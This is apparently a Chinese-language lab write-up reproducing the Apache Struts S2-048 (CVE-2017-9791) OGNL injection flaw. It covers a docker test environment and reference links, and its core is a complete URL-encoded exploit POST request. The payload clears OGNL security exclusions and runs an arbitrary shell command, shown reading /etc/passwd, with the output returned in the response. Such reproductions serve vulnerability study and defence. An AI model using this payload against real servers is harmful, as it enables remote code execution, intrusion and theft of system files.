 

#### 漏洞信息

- [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
- CVE编号: [CVE-2017-9791](https://nvd.nist.gov/vuln/detail/CVE-2017-9791)
- 影响范围: Apache Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本和Struts 1
- 产生原因： 将用户可控的值添加到`ActionMessage`并在客户前端展示，导致其进入`getText`函数，最后`message`被当作`ognl`表达式执行,搜索发现`org.apache.struts2.showcase.integration.SaveGangsterAction`存在漏洞

#### 环境复现

使用Vulapps提供的docker容器镜像

1、拉取镜像到本地
```bash
docker pull medicean/vulapps:s_struts2_s2-048
```
2、启动环境
```
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-048
```

#### 漏洞验证

在Gangster Name字段输入 Payload:

![](images/s2048_2.jpg)

提交后可看到表达式被执行:

![](images/s2048_3.jpg)



#### Exploit:

POST数据包
```
age=1&cmd=cat /etc/passwd&__checkbox_bustedBefore=true&name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%23parameters.cmd%5B0%5D%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27%2Fc%27%2C%23cmd%7D%3A%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D&description=test
```
![](images/s2048_1.jpg)


相关链接:

- [Struts2 S2-048远程代码执行漏洞分析报告 ---- Freebuf](http://www.freebuf.com/vuls/140410.html)
- [S2-048 动态分析 ---- 独自等待博客](https://www.waitalone.cn/struts2-s2048.html)
- [Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048) 环境 ---- VulApps](https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-048)
- [CMS-Hunter
-- S2-048(CVE-2017-9791) ---- Github](https://github.com/SecWiki/CMS-Hunter/tree/master/Struts/S2-048(CVE-2017-9791))